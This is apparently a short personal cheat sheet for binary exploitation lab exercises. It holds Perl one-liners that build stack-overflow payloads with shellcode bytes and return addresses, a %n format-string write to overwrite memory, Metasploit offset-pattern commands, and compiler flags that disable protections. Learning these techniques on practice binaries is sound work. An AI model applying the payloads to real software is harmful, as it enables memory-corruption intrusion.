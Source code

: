 		Using PERL for argument.
=============================================
`perl -e 'print  "\x31\xc0\x50\x68\" . "A"x76 . "\x28\xf4\xff\xbf" '`
`perl -e 'print  "A"x100 '`
inside gdb# run $(perl -e 'print "A"x100')
 
		Patterns for rewrite 
=============================================	
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 63413563 


		Compile in Kali with no protection
=============================================
gcc stack0.c -o stack0 -fno-stack-protector -z execstack -no-pie -m32 -ggdb


		HEX file representation
=============================================
xxd pattern
00000000: 4161 3041 6131 4161 3241 6133 4161 3441  Aa0Aa1Aa2Aa3Aa4A
00000010: 6135 4161 3641 6137 4161 3841 6139 4162  a5Aa6Aa7Aa8Aa9Ab

		Strings search
=============================================
strings filename
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A


		Format string example
=============================================
run $(perl -e 'print "\xcc\xcc\xcc". "\x38\x96\x04\x08" . "%x"x165 . "%n"')
 - \x38\x96\x04\x08 address of parameter to change
 - %n should be padded exactly to location of string "\x38\x96\x04\x08" in the stack
 
First find the writable parameter with %x - in our case %6$x:
perl -e 'print  "AAAABBBB"."\x24\x97\x04\x08"."\x26\x97\x04\x08"."%6\$33956x" ."%6\$n"."%7\$33616x" ."%7\$n" ' > exploit

To make:  0x8049724:	0x080484b8
1) we write 84b8 at 0x8049724
2) we write 010804 at 0x8049726 ( + something to 84b8)
  
		File info
=============================================
show  dynamic lynced libraries#     ldd format1
show  calls #                       strace ./format1


		GEF
=============================================
- to divide output into 2 windows
run gef in tmux session#    tmux new-session -s shared
run gef #                   gdb -q ./binnary
crutch to make it work#     gef config gef.debug 1


	
